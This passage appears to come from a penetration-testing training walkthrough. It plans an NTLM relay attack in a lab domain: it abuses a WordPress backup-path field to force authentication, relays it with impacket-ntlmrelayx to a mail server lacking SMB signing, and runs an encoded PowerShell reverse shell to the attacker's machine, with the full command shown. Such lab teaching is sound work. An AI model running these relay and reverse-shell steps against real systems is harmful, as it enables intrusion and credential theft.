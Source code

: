For the second attack vector, we must review the BloodHound results again and make some assumptions. As we have discovered, the local *Administrator* account has an active session on INTERNALSRV1. Based on this session, we can assume that this user account is used to run the WordPress instance.

Furthermore, it's not uncommon that the local *Administrator* accounts across computers in a domain are set up with the same password. Let's assume this is true for the target environment.

We also learned that the domain administrator *beccy* has an active session on MAILSRV1 and therefore, the credentials of the user may be cached on the system.

Due to SMB signing being disabled on MAILSRV1 and INTERNALSRV1, a relay attack is possible if we can force an authentication.

Finally, we identified the *Backup directory path* field in the WordPress *Backup Migration* plugin containing the path for the backup destination. This may allow us to force such an authentication request.

Based on this information, let's define a plan for the second attack vector. First, we'll attempt to force an authentication request by abusing the *Backup directory path* of the Backup Migration WordPress plugin on INTERNALSRV1. By setting the destination path to our Kali machine, we can use [*impacket-ntlmrelayx*](https://www.kali.org/tools/impacket-scripts/) to relay the incoming connection to MAILSRV1. If our assumptions are correct, the authentication request is made in the context of the local *Administrator* account on INTERNALSRV1, which has the same password as the local *Administrator* account on MAILSRV1.

If this attack is successful, we'll obtain privileged code execution on MAILSRV1, which we can then leverage to extract the NTLM hash for *beccy* and therefore, meet one of the primary goals of the penetration test.

Since the second attack vector not only results in code execution on a single system, but also provides a potential vector to achieve one of the goals of the penetration test, we'll perform the relay attack first.

Let's set up **impacket-ntlmrelayx** before we modify the *Backup directory path* in the WordPress plugin. We'll use **\--no-http-server** and **\-smb2support** to disable the HTTP server and enable SMB2 support. We'll specify the external address for MAILSRV1, 192.168.50.242, as target for the relay attack. By entering the external address, we don't have to proxy our relay attack via Proxychains. Finally, we'll base64-encode a [*PowerShell reverse shell oneliner*](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3) that will connect back to our Kali machine on port 9999 and provide it as a command to **\-c**.

```
kali@kali:~/beyond$ sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.242 -c "powershell -enc JABjAGwAaQ..."
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client SMTP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```
